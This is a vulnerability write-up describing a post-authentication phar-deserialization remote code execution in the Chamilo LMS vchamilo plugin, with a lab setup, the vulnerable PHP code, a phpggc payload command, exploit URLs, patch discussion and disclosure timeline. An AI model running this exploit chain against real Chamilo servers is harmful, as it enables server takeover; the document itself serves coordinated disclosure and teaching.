










> Quick update: I gave a cute rump about this training, report, and patch at [GreHack 2024](https://grehack.fr/), feel free to check it out! ;)



# Chamilo 1.11.26 - Post-Auth RCE

This article is the result of an [OffenSkill Training](https://www.offenskill.com/trainings). It explores a `post-authentication phar unserialize` leading to a `remote code execution (RCE) within Chamilo` (Learning Management System) `1.11.12` up to `1.11.26`. By abusing multiple supported features from the `virtualization plugin vchamilo`, the vulnerability allows an administrator to execute arbitrary code on the server.

## Introduction

This training took place almost a year ago, but we did not take the time to write the results out (oops). The version analyzed back then was `1.11.12` but as of today, is `1.11.26` (+ a `2.0.0` version in alpha)! I haven't tested for `2.0.0`, but I can affirm that this exploit works *at least* from `1.11.12` up to `1.11.26`, and probably on earlier versions as well.

The setup is docker-compose based, using intensively [https://github.com/22phuber/docker-compose-chamilo-lms](https://github.com/22phuber/docker-compose-chamilo-lms) but patched to use the latest Chamilo release, as the last changes for this repo are 2 years old, while Chamilo kept updating and releasing!

The setup is started with: `docker compose up --build --force-recreate --remove-orphans`

```bash
version: "3.5"
services:
  mariadb:
    image: mariadb
    environment:
      - MYSQL_ROOT_PASSWORD=pass
      - MYSQL_USER=chamilo
      - MYSQL_PASSWORD=chamilo
      - MYSQL_DATABASE=chamilo
    labels:
      "project.id": "docker.compose.mariadb"
      "project.github.url": "https://github.com/22phuber/docker-compose-chamilo-lms"

  chamilo_php7:
    build:
      context: ./chamilo-php7
      target: php7_apache_chamilo_lms
      args:
        - CHAMILO_VERSION=1.11.26
        - CHAMILO_TAR=chamilo-1.11.26.tar.gz
    links:
      - mariadb
    ports:
      - "8000:80"
    extra_hosts:
      - "docker.chamilo.net:127.0.0.1"
    labels:
      "project.id": "docker.compose.chamilo_lms"
      "project.github.url": "https://github.com/22phuber/docker-compose-chamilo-lms"
```

Nothing too specific here, we have one backend and a database. The research setup included a [Snuffleupagus](https://snuffleupagus.readthedocs.io/) setup to log interesting functions being reached, and a [Sysdig](https://github.com/draios/sysdig) container for `system-level introspection`, `IOs`, `networking`, `executed commands`, and more.





## Early thoughts

As usual, to discover more attack surface, and get intimate with the studied software, what I suggest is to login as an administrator, and start messing around, clicking, inspecting, nothing too structured, just play with it, let your thoughts flow, note every idea or point of interest down!

We won't cover them all here, but one plugin that right away caught our attention if `vchamilo`. It is disabled by default, but can be enabled back and provides virtualization capabilities, which is... Supposed powerful?



## Code Reading & Analysis

## Proof of Concept (PoC)

### Enable Virtualization Plugin



### Generate Phar payload with Phpggc



### Upload Phar as "foo.png" with ElFinder



### Set "Container effectif" to "phar://"



### Trigger Phar Unserialize



### Putting it all together

I'm too lazy to script today, but here are the URLs, feel free to *click click* your way through, or offer a script to the community! ;)

```bash
# Enable Virtualization plugin
http://127.0.0.1:8000/main/admin/settings.php?category=Plugins
# Generate phar payload
phpggc -p phar -o foo.png monolog/rce1 system id
# Upload phar as foo.png & get relative path/url (right-click + get-infos)
http://127.0.0.1:8000/main/social/myfiles.php
# Set "Container effectif" de cours (chemin réel) to "phar://"
http://127.0.0.1:8000/main/admin/configure_plugin.php?name=vchamilo
# Empty cache: It's needed while you test, otherwise the cache won't let you replay/retry
http://127.0.0.1:8000/main/admin/archive_cleanup.php
# Trigger phar unserialize
http://127.0.0.1:8000/plugin/vchamilo/views/manage.testdatapath.php?dataroot=/var/www/chamilo/app/upload/users/1/1/my_files/foo.png
```

## Now, let's analyze the code

This won't be long as -almost- one file is used by this exploit.\
Sometimes exposed features and a `touch of intuition` are enough!

The involved code lives in `/var/www/chamilo/plugin/vchamilo/views/manage.testdatapath.php`

```php
<?php
// -[SNIP]-
require_once __DIR__.'/../../../main/inc/global.inc.php';
api_protect_admin_script();
$plugin = VChamiloPlugin::create();

$dataroot = $_REQUEST['dataroot'];
$absalternatecourse = Virtual::getConfig('vchamilo', 'course_real_root');
if (!empty($absalternatecourse)) {
    $coursedir = str_replace('//', '/', $absalternatecourse.'/'.$dataroot);
} else {
    $coursedir = api_get_path(SYS_PATH).$dataroot;
}

if (is_dir($coursedir)) {
    $DIR = opendir($coursedir);
    $cpt = 0;
    $hasfiles = false;
    while (($file = readdir($DIR)) && !$hasfiles) {
        if (!preg_match("/^\\./", $file)) {
            $hasfiles = true;
        }
    }
    closedir($DIR);
    // -[SNIP]-
} else {
    // -[SNIP]-
}
// -[SNIP]-
```

From this, we'll deduce that:

- Our `phar:// prefix` comes from the internal variable storage
    - `$absalternatecourse = Virtual::getConfig('vchamilo', 'course_real_root');`
- Our `full path / suffix` comes from the php GET or POST variables
    - `$dataroot = $_REQUEST['dataroot'];`
- Prefix & Suffix are concatenated without extra checks
    - `$coursedir = api_get_path(SYS_PATH).$dataroot;`
- They then pass the `is_dir` check. Excuse me What The PharFuck?
    - `if (is_dir($coursedir)) {`
- The final URI actually also stops at `is_dir` which supports the `phar://` scheme
    - Yup, user-controled (prefix) content in `is_dir` is deadly when [php < 8.0.0](https://php.watch/versions/8.0/phar-stream-wrapper-unserialize) and `gadgets are available`.

> Side note on the gadget used: Grepping "monolog" or usual gadgets from [Phpggc](https://github.com/ambionics/phpggc) was straightforward. Libs are used, they offer gadgets, then it's standard phar business that I won't detail more here.

## BONUS 1: Excuse me What The PharFuck?

> Phar are archives, they can contain files or directories, but are a single file...\
So in a way, it's wrong, but it's right, but so wrong. `¯\_(ツ)_/¯`



## BONUS 2: Why a two part exploit?

- Why not keep the first field blank?
    - Because a null value results in a default one being used
    - `$coursedir = api_get_path(SYS_PATH).$dataroot;`.


- Why not keep the second field blank?
    - This would result in a trailing / that would also prevent one-shot exploitation
    - `$coursedir = str_replace('//', '/', $absalternatecourse.'/'.$dataroot);`

Both approaches would break the attack. That's why it's required to have a double injection point before triggering the exploit, but in the meantime, it makes automated detection less likely. It's 2024 and brains are still required, what a life.. 🙃

## BONUS 3: Funky patch

The draft patch contained two patterns that are often seen as a decent first approach, but are actually not:



> The idea here is *not* to throw stones, the staff reaction to my bypasses was really enthusiastic, they were happy to learn common weak patterns, and came up with the final fix: "Let's blank that unused file !" 🌹\
> But I still wanted to share these examples are they are used way too often.. 😅

## BONUS 4: Is this all useless due to CNEXT & CVE-2024-2961?

Late in 2024, [@cfreal_](https://x.com/cfreal_) disclosed the `CVE-2024-2961` and its [PoC](https://github.com/ambionics/cnext-exploits).\
This is a direct remote code execution at glibc level reached through the php iconv filter.

This implies that even if the exploit introduced here can be used on updated linux hosts, the same sinks can also be abused to obtain a one shot file-less RCE through CNEXT. This would not require phar/png upload, phar gadgets, nor a php version below 8.1 (automatic phar metada unserialize disabled) to be exploitable.\
This really is a game changer, being on this issue or every phar based exploit in the past 20 years...

Again, a *HUGE* Gg to [@cfreal_](https://x.com/cfreal_) for pushing it *that* far once more! 🫡

## Patch & Timeline

- 2024/08/08: [Wrote the report](https://github.com/chamilo/chamilo-lms/security/advisories/GHSA-c4fc-vjm9-9mvc), submitted it through [Chamilo Github Issues](https://github.com/chamilo/chamilo-lms/security)
- 2024/09/26: First answer after a few pings: "Sorry, we didn't catch this. [...]", so delayed but OK
- 2024/09/30: Temporary fork started with a draft patch from "BONUS 3" above
- 2024/10/07: Draft Patch review, two bypasses found
- 2024/10/10: Staff answers stating that this file is deprecated since 2016 for security reasons and has been reintroduced by mistake
- 2024/10/11: Final patch is "we blank this file" and `CVE-2024-47886` is issued! 🥰
- 2024/10/21: Chamilo 1.11.28 is released
- 2024/11/15: Article is teased as a "fun timeline and patch" rump during [GreHack](https://grehack.fr/)
- 2024/11/18: Full article is updated & published 🥳

## Credits : Training lvl-20 | 2023 July

Attendees:

- [@_Euzebius](https://twitter.com/_Euzebius)
- [@luksecurity_](https://twitter.com/luksecurity_)
- [@logiKnight](https://twitter.com/logiKnight)
- ldv

Findings:

- 2 RCE post-auth
- 3 File write
- 1 Server Side Templating Injection
- Phar unserialize trigger & gadget
- 1 File read


> Join the next Web Security Trainings at [Offenskill](https://offenskill.com/trainings/)
